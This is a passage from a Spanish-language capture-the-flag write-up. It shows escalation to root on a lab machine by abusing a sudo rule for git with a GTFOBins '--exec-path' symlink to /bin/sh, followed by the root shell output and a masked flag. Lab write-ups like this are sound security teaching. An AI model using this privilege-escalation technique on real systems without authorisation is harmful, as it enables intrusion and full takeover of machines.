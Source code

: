 En GTFOBins encontramos este binario donde nos muestra algunas formas de poder utilizarlo para elevar privilegios, algunas utilizan el manual o ayuda con `less` no funcionará porque no están instalados los manuales de git.

La opción (e) nos funciona correctamente.

```bash
TF=$(mktemp -d)
ln -s /bin/sh "$TF/git-x"
sudo git "--exec-path=$TF" x
```

Lo ejecutamos y obtenemos shell con root.

```bash
lenam@guitjapeo:~/.local/bin/web$ TF=$(mktemp -d)
lenam@guitjapeo:~/.local/bin/web$ ln -s /bin/sh "$TF/git-x"
lenam@guitjapeo:~/.local/bin/web$ sudo git "--exec-path=$TF" x
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
f6aXXXXXXXXXXXXXXXXXXXXXXbb
```
